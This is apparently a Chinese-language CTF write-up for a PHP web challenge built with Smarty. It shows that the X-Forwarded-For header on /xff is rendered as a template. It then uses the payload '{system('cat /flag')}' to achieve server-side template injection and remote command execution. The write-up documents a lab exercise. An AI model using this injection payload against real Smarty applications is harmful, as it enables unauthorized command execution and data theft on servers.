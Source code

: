 ![](<./img/Pasted image 20221210205542.png>)

---
首页长这样

![](<./img/Pasted image 20221210205615.png>)

有两个api，分别通过`/api`和`/xff`访问

同时页脚提示`Build With Smarty！`

可能是要寻找注入点

通过浏览器访问`/api`或`/xff`会出错，抓包发现301响应的`Location`没有加上端口号

![](<./img/Pasted image 20221210205905.png>)

`/xff`可以通过修改`X-Forwarded-For`请求头来控制响应的内容，推测使用`smarty`来渲染响应，于是尝试对`X-Forwarded-For`进行注入
```php
X-Forwarded-For: 123
```
> 123

```php
X-Forwarded-For: {1+1}
```
> 2

```php
X-Forwarded-For: {system('cat /flag')}
```

![](<./img/Pasted image 20221210213629.png>)

#Web #PHP #smarty #SSTI #RCE #HTTP #Header 